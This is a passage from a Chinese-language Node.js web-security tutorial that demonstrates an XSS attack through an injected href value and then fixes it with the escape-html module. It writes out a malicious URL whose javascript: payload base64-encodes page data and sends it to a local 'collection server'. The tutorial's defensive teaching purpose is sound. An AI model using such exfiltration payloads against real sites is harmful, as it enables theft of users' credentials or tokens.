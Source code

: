     ```js
    $ node collection-server.js
    ::1 All systems are running.
    ```

要强调这些攻击的危险性，请设想这是真实的特权数据，如凭据或令牌。通过向用户发送恶意链接并让他们点击，我们可以通过我们的收集服务器获取他们的敏感数据。

服务器仍然易受攻击，因为我们仍然可以将值注入`href`属性。避免这种情况的最安全方法是不允许输入确定`href`属性的值：

1.  让我们将`fixed-server.js`复制到一个新文件并修复它：

    ```js
    $ cp fixed-server.js protocol-safe-server.js
    ```

2.  我们将通过安装`escape-html`模块

    ```js
    $ npm install escape-html
    ```

    来修复此漏洞
3.  导入`protocol-safe-server.js`中的`escape-html`模块，将`he`模块导入替换为以下行：

    ```js
    const escapeHTML = require("escape-html");
    ```

4.  然后将`href`赋值更改为以下内容：

    ```js
    const href = escapeHTML(`/${previous}${token}/${lang}`);
    ```

5.  现在，开始`protocol-safe-server.js`：

    ```js
    $ node protocol-safe-server
    Server listening on port 3000
    ```

6.  在数据采集服务器仍在运行的情况下，重新访问恶意 URL，然后单击**返回**。

    ```js
    http://localhost:3000/?previous=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(document.getElementById(%22status%22).innerHTML)}`,0/
    ```

您将观察到请求失败，并且数据采集服务器没有收到权限数据。这是因为指向恶意服务器的链接已被清除。

重要提示

本章介绍了 HTML 编码和可用于帮助转义 HTML 的模块。类似地，为了转义 JavaScript，`jsesc`模块（[https://www.npmjs.com/package/jsesc 可以使用](https://www.npmjs.com/package/jsesc)。然而，将输入嵌入到 JavaScript 通常被认为是高风险，所以你应该评估你这样做的原因。

### 参数验证

浏览器在地址栏中只能显示很长 URL 的一部分。这意味着对于具有许多参数的非常长的 URL，您可能看不到 URL 末尾附加了什么。这使得识别恶意 URL 更具挑战性。
